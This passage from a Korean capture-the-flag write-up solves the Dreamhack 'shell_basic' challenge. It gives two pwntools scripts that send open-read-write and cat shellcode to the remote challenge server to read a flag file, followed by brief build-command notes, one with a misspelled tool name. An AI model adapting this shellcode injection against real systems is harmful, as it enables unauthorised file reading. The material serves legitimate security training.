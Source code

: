 ```
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 24520)

r = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.pushstr(r)
shellcode += shellcraft.open("rsp", 0, 0)
shellcode += shellcraft.read("rax", "rsp", 0x30)
shellcode += shellcraft.write(1, "rsp", 0x30)
shellcode = asm(shellcode)

p.sendlineafter('shellcode: ', shellcode)

print(p.recvuntil(b'}'))
```
3.
```
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 24520)

shellcode = asm(shellcraft.cat("/home/shell_basic/flag_name_is_loooooong"))

p.sendlineafter(b'shellcode: ', shellcode)
print(p.recvuntil(b'}'))
```
### 참고 정리

- `orw.c->orw` : `gcc -o orw orw.c`
- `orw.asm->orw.o` : `nasm -f elf64 orw.asm`
- `orw.o->orw.bin` : `obcopy —dump-section .text=orw.bin orw.o`